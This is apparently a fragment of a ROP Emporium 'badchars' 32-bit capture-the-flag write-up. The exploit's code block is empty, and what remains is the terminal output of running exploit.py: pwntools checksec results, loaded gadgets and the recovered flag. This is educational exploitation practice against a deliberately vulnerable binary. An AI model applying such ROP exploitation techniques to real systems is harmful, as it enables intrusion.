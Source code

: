 ```python
	

```

And... Boom!

```sh
	
$ python3 exploit.py
[*] '/home/ubuntu/ropemporium/badchars/badchars32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process '/home/ubuntu/ropemporium/badchars/badchars32': pid 61741
[*] Loaded 10 cached gadgets for './badchars32'
[*] Switching to interactive mode
 Thank you!
ROPE{not original}

[*] Got EOF while reading in interactive
$ 

```







